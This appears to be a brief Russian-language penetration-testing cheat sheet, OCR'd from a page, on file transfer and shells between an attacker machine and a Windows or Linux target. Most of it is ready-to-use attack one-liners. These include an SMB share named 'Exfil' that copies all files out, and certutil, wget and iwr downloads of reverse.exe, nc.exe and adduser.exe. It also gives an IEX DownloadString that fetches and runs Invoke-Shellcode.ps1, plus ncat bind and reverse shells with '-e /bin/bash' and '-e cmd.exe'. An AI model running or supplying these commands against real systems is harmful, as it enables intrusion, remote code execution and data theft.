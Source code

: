 # Поднять SMB сервер

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

On Windows (update the IP address with your Kali IP):

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

--Доступ к smb директории

New-PSDrive -Name "Exfil" -PSProvider "FileSystem" -Root "\\10.10.14.49\share"

copy * Exfil:\

Get-Content //10.10.14.4/file

net use z: //10.10.10.14/shares

# Поднять HTTP сервер

python3 -m http.server 8080

# Cтянуть c HTTP сервера

curl -o file http://file

wget https://example.com/file.zip - стянуть файйл с сервера. 

для повершелл wget "http://10.18.35.17:8888/Zero.exe" -OutFile z1.exe

IEX(New-Object Net.WebClient).DownloadString ("http://192.168.181.128:8000/CodeExecution/Invoke-Shellcode.ps1 ")

iwr -uri http://192.168.x.xx/adduser.exe -OutFile adduser.exe

certutil.exe -f -split -urlcache http://ip/nc.exe c:\windows\temp\nc.exe


# Поднять NetCAt

На удалённом сервере запускаем Ncat следующим образом:
ncat -l -e "/bin/bash" 43210
nc -l -p <порт команды> -e cmd.exe
И подключаемся с локального компьютера:
ncat 185.26.122.50 43210

Подключение к Ncat если удалённая машина находиться за NAT
На локальном компутере
ncat -l 43210
А на удалённом компьютере мы запускаем программу так:
ncat -e "/bin/bash" ХОСТ 43210

Как передать файлы на удалённый компьютер
С помощью Ncat можно выгрузить файлы на удалённый сервер. К примеру, мне нужно отправить файл some_stuff.txt. Тогда на сервере (куда будет загружен файл), запускаю:
ncat -lvnp 43210 > some_stuff.txt
А на локальном компьютере (с которого будет выгружен файл) запускаю:
ncat 185.26.122.50 43210 < some_stuff.txt
